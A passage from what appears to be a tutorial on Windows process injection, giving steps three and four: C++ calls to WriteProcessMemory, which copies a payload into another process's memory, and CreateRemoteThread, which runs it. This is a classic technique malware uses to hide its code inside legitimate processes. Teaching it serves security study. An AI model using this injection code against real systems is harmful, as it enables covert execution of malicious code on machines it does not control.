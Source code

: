 Step three, we can use `WriteProcessMemory` to write the payload to the allocated region of memory.

```cpp
WriteProcessMemory(
	hProcess, // Opened target process
	remoteBuffer, // Allocated memory region
	payload, // Data to write
	sizeof payload, // byte size of data
	NULL
);
```

Step four, we can use `CreateRemoteThread` to execute our payload from memory.

```cpp
remoteThread = CreateRemoteThread(
	hProcess, // Opened target process
	NULL, 
	0, // Default size of the stack
	(LPTHREAD_START_ROUTINE)remoteBuffer, // Pointer to the starting address of the thread
	NULL, 
	0, // Ran immediately after creation
	NULL
); 
```

